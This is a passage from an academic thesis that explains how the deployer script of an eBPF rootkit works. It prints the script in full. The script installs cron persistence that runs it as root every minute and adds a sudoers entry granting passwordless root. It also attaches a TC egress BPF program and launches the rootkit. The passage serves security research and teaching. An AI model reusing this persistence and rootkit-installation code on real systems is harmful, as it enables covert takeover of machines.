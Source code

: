 \begin{lstlisting}[language=C, caption={Script deployer.sh.}, label={code:deployersh}]
## Persistence
declare -r CRON_PERSIST="* * * * * osboxes /bin/sudo /home/osboxes/TFG/apps/deployer.sh"
declare -r SUDO_PERSIST="osboxes ALL=(ALL:ALL) NOPASSWD:ALL #"
echo $CRON_PERSIST > /etc/cron.d/ebpfbackdoor
echo $SUDO_PERSIST > /etc/sudoers.d/ebpfbackdoor

# Rootkit install
OUTPUT_COMM=$(/bin/sudo /usr/sbin/ip link)
if [[ $OUTPUT_COMM == *"xdp"* ]]; then
   echo "Rootkit is already installed"
else
   #Install the programs
   echo -e "${BLU}Installing TC hook${NC}"
   /bin/sudo tc qdisc del dev enp0s3 clsact
   /bin/sudo tc qdisc add dev enp0s3 clsact
   /bin/sudo tc filter add dev enp0s3 egress bpf direct-action obj "$BASEDIR"/tc.o sec classifier/egress
   /bin/sudo "$BASEDIR"/kit -t enp0s3 &
fi
\end{lstlisting}

As we can observe in its contents, the script will take care of the installation process of the rootkit. For this, it will first check whether there exists any XDP program loaded. If there is any, it is assumed that it belongs to the rootkit backdoor and thus the process is halted. Otherwise, the rootkit is installed:
\begin{itemize}
\item We remove any previous existing qdisc, followed by creating the new qdisc for the TC program, which is created and attached to network interface enp0s3. This step was explained in Section \ref{subsection:tc}.
\item We attach the TC program to the newly created qdisc.
\item We execute the main file (\textit{kit}) of the rootkit, specifying the network address for the XDP program to use. This will launch the user space rootkit program, which will load and attach the eBPF programs in the kernel.
\end{itemize}

Also, as we mentioned, the \textit{deployer.sh} script takes care of the rootkit persistence by writing an entry into the file \textit{/etc/cron.d/ebpfbackdoor}. Code snippet \ref{code:bpfbackdoor_cron} shows the outcome of the data written into this file.

\begin{lstlisting}[language=C, caption={Content of /etc/cron.d/ebpfbackdoor.}, label={code:bpfbackdoor_cron}]
* * * * * osboxes /bin/sudo /home/osboxes/TFG/apps/deployer.sh
\end{lstlisting}

